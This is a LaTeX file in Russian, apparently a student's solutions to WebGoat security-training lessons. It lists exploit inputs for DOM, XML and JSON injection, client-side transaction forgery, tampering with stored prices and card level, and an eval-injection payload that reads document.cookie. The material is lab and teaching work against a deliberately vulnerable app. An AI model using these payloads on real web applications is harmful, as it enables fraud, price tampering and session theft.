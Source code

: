 \documentclass{article}
\begin{document}
\begin{enumerate}
\item DOM injection

Для этого в документ необходимо добавить строку:
document.forms[0].SUBMIT.disabled=false;

\item XML Injection

При посылке запроса необходимо добавить:
\begin{verbatim}
<root>
<reward>WebGoat Mug 20 Pts</reward>
<reward>WebGoat t-shirt 50 Pts</reward>
<reward>WebGoat Secure Kettle 30 Pts</reward>
<reward>WebGoat Core Duo Laptop 2000 Pts</reward>
<reward>WebGoat Hawaii Cruise 3000 Pts</reward>
</root>
\end{verbatim}


\item JSON Injection

При посылке необходимо изменить ответ на:

\begin{verbatim}
{
"From": "Boston",
"To": "Seattle", 
"flights": [
{"stops": "0", "transit" : "N/A", "price": "$20"},
{"stops": "2", "transit" : "Newark,Chicago", "price": "$300"} 
]
}
\end{verbatim}

\item Sielent tansactions attack

Очередной урок на тему того, что не нужно делать проверки на клиентской строне. Находим клиентскую функцию для отправки, вызываем ее.

submitData(555, 1000000)

\item Insecure client srorage

Очередное!

Снимаем флажки readonly, ставим карточку GOLD, обнуляем стоимость покупок.

\item Dangerous use of eval

eval вообще крайне не рекомендуется использовать, но чтобы так вот. Для выполнения задания нужно ввести в поле
\begin{verbatim}
')%3Balert(document.cookie%2B'something
\end{verbatim}

\end{enumerate}

\paragraph{Недостатки аутентификации}
~
\end{document}
